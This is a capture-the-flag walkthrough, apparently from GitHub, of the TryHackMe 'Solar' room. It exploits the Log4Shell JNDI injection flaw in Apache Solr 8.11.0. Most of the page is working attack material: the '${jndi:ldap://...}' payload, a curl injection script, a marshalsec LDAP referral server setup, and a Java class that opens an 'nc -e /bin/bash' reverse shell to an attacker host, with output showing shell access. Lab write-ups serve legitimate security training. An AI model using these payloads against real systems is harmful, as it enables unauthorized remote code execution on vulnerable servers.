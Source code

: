 # CTF - [THM Solar, exploiting log4j](https://tryhackme.com/room/solar)
Nmap scan:
```
PORT     STATE SERVICE
22/tcp   open  ssh
111/tcp  open  rpcbind
8983/tcp open  unknown
```

Port 8983 is interesting, navigating to the web server on this port, I found a web app running Apache Solr version 8.11.0. Apparently, this software is known to 
have the vulnerable log4j package.
<br/><br/>
![Screenshot from 2021-12-22 13-53-37](https://user-images.githubusercontent.com/59718043/147141427-ae530fa8-811d-4d3a-a664-ab908b62025e.png)

The dashboard shows indicators that the log4j package is used for the logging activity on this application.
```
-Dsolr.log.dir=/var/solr/logs
```
This machine is supplied with example log files for investigation. In one of the log files, `solr.log`, there are multiple entries of the same requests pointing to
one specific URL endpoint or path. This path is set to `/admin/cores`. Another interesting field is the `params={}`, which we can supply with user input.
```
2021-12-13 03:44:58.415 INFO  (qtp1083962448-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=80
2021-12-13 03:47:53.989 INFO  (qtp1083962448-21) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:54.819 INFO  (qtp1083962448-16) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:55.284 INFO  (qtp1083962448-19) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:55.682 INFO  (qtp1083962448-22) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:56.075 INFO  (qtp1083962448-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:56.459 INFO  (qtp1083962448-23) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:56.844 INFO  (qtp1083962448-14) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:57.253 INFO  (qtp1083962448-17) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:57.548 INFO  (qtp1083962448-18) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:57.758 INFO  (qtp1083962448-21) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:58.058 INFO  (qtp1083962448-16) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=1
2021-12-13 03:47:58.346 INFO  (qtp1083962448-19) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0

```
The URL endpoint needs to be prefaced with `solr/`. So the address where we can supply the `params={}` payload 
would look like this: `http://MACHINE_IP:8983/solr/admin/cores`.
<br/><br/>
The payload to abuse this log4j vulnerability looks like this: `${jndi:ldap://ATTACKERCONTROLLEDHOST}`.
This schema reaches out to an attacker controlled endpoint via the LDAP protocol and uses the Java Naming and Directory Interface (JNDI) functionality
to access external resources.
<br/><br/>
To test this theory, we're going to set up a netcat listener then make an HTTP request including the JNDI payload as part of the parameters.
```
nc -nvlp 4444
```
```bash
#!/bin/bash

read -p "LISTENER IP: " attacker
read -p "TARGET IP: " target
curl "http://${target}:8983/solr/admin/cores?foo=$\{jndi:ldap://${attacker}:4444\}"
```
Output:
```
$ bash curl.sh
LISTENER IP: 10.8.219.166
TARGET IP: 10.10.73.44
{
  "responseHeader":{
    "status":0,
    "QTime":3},
  "initFailures":{},
  "status":{}}
```
Netcat output:
```
$ nc -nvlp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.73.44 57114
0
 `
```
As expected, the output verifies that the target is in fact vulnerable. The netcat listener caught a connection. However, 
the payload we sent only made an LDAP request, so technically we haven't popped a shell yet.<br/>


The exploitation requires us to host an LDAP referral server, which will redirect the victim's request to an HTTP server hosting our secondary payload, ultimately allowing us to run arbitrary code on the target.<br/><br/>
The attack chain would be executed like this:<br/>
- 1. `${jndi:ldap://attackerserver:1389/Resource}` -> reaches out to our LDAP Referral Server 
- 2. The LDAP Referral Server then redirects the payload to our HTTP server
- 3. The victim retrieves and executes the code on our HTTP server, which then gives us unauthenticated remote access

We will utilize an open-source LDAP Referral Server utility: [marshalsec](https://github.com/mbechler/marshalsec)<br/>
According the README.md file, Java 8 is required.<br/><br/>
Link to download Java on Linux (we will need `jdk-8u181-linux-x64.tar.gz`): http://mirrors.rootpei.com/jdk/
```bash
#!/bin/bash

sudo mkdir /usr/lib/jvm 

cd /usr/lib/jvm

sudo tar xzvf ~/Downloads/jdk-8u181-linux-x64.tar.gz    # modify as needed

sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1
sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1
sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/lib/jvm/jdk1.8.0_181/bin/javaws" 1

sudo update-alternatives --set java /usr/lib/jvm/jdk1.8.0_181/bin/java
sudo update-alternatives --set javac /usr/lib/jvm/jdk1.8.0_181/bin/javac
sudo update-alternatives --set javaws /usr/lib/jvm/jdk1.8.0_181/bin/javaws
```
We'll need to clone marshalsec locally and build the utility using maven.
```
git clone https://github.com/mbechler/marshalsec
sudo apt install maven
cd marshalsec
mvn clean package -DskipTests
```
Output:
```
[INFO] ------------------------------------------------------------------------
[INFO] BUILD SUCCESS
[INFO] ------------------------------------------------------------------------
[INFO] Total time:  51.013 s
[INFO] Finished at: 2021-12-28T18:27:32-05:00
[INFO] ------------------------------------------------------------------------
```
Next, we're going to start the LDAP server, which will wait for incoming connections and redirect those connections to our secondary HTTP server.
We're going to set the server to listen on port 8000.
```
$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ATTACKER_IP:8000/#Exploit"
Listening on 0.0.0.0:1389
```
Now that the LDAP server is running, we can write a Java payload that will be hosted by our secondary server, which will execute a reverse shell once it receives a connection.
```java
//filename: Exploit.java
public class Exploit {
        static {
                try {
                        java.lang.Runtime.getRuntime().exec("nc -e /bin/bash ATTACKER_IP 9999");
                } catch (Exception e) {
                        e.printStackTrace();
                }
        }
}
```
This Java payload executes a netcat listening on port 9999. Once a connection is caught, it will call back to our attacker machine.<br/><br/>
Compile this payload; `javac Exploit.java`.<br/><br/>
Set up a secondary HTTP server.
```
python3 -m http.server
```
Run netcat on port 9999 to receive the reverse shell.
```
nc -nvlp 9999
```
Now that we have all 3 things setup (marshalsec LDAP server, secondary HTTP server, netcat listener), we can run the exploit.
```
curl "http://TARGET_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://ATTACKER_IP:1389/Exploit\}"
```
Output:
```
$ curl "http://10.10.137.149:8983/solr/admin/cores?foo=$\{jndi:ldap://10.8.219.166:1389/Exploit\}"
{
  "responseHeader":{
    "status":0,
    "QTime":0},
  "initFailures":{},
  "status":{}}
```
Marshalsec output:
```
$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.8.219.166:8000/#Exploit"
Listening on 0.0.0.0:1389
Send LDAP reference result for Exploit redirecting to http://10.8.219.166:8000/Exploit.class
```
HTTP server output:
```
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.137.149 - - [28/Dec/2021 20:15:21] "GET /Exploit.class HTTP/1.1" 200 -
```
Netcat listener:
```
$ nc -nvlp 9999
Listening on 0.0.0.0 9999
Connection received on 10.10.137.149 40180
id
uid=1001(solr) gid=1001(solr) groups=1001(solr)
```
```
TO BE CONTINUED
```
